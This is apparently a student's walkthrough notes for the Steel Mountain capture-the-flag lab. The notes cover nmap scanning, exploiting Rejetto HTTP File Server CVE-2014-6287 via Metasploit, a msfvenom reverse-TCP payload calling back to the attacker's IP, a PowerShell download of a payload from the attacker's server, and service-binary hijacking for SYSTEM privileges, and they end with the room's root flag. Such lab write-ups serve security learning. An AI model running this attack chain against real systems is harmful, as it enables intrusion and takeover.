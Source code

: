 # Steel Mountain Notes

# My Machine IP 

>	10.8.19.163

#Steel Mountain Target IP

>	10.10.69.38

# NMAP 
---
>	nmap -A -sC -sV -Pn -n --script vuln -T5 10.10.138.155 | tee steel.nmap

>	Open Ports Scan Results:
>	
>	80/tcp    open  http               Microsoft IIS httpd 8.5
>	135/tcp   open  msrpc              Microsoft Windows RPC
>	139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
>	445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
>	3389/tcp  open  ssl/ms-wbt-server?
>	8080/tcp  open  http               HttpFileServer httpd 2.3
>	49152/tcp open  msrpc              Microsoft Windows RPC
>	49153/tcp open  msrpc              Microsoft Windows RPC
>	49154/tcp open  msrpc              Microsoft Windows RPC
>	49155/tcp open  msrpc              Microsoft Windows RPC
>	49157/tcp open  msrpc              Microsoft Windows RPC
>	49163/tcp open  msrpc              Microsoft Windows RPC
___

# What File Server is running on the machine?

	Searched exploit.db for a http file server exploit. NMAP scans do not show it as a rejetto file server but correct answer is 
	> rjetto http file server

# CVE discovered

	> CVE-2014-6287

	Utilized Metasploit and discovered I can connect with a meterpreter shell.

	Metasploit commands:

	> getuid - STEELMOUNTAIN\bill 

 Uploaded a msfvenom package with: 

 Created another meterpreter listening sessions and executed the malware in c:\windows\temp

> msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.19.163 LPORT=6666 -f exe -o shell.exe

> powershell Invoke-WebRequest -Uri http://10.8.19.163:8000/Advanced.exe -Outfile Advanced.exe
 
 > start shell.exe

More stable meterpreter session created. Searchef for all .txt files with:

> search -f *.txt

Try to upgrade account with powersploit.

Uploaded PowerUp.ps1 from powersploit in directory c:\Users\bill\desktop

> . .\PowerUp.ps1

> Invoke-AllChecks

Powerup shows that "AdvancedSystemCareService9" has restart authority. Lets check that out.

Drop into a windows "shell" form Meterpreter. Stop service:

> sc stop AdvancedSystemCareService9

Then I reupload "Advanced.exe" to overwrite the exisiting root level service.

Then I restart the Advanced System Care service with:

sc start AdvancedSystemCareService9

My windows shell comes online.

> whoami "nt authority\system"

> c:\Users\Administrator\Desktop>more root.txt
>	more root.txt
>	9af5f314f57607c00fd09803a587db80





___
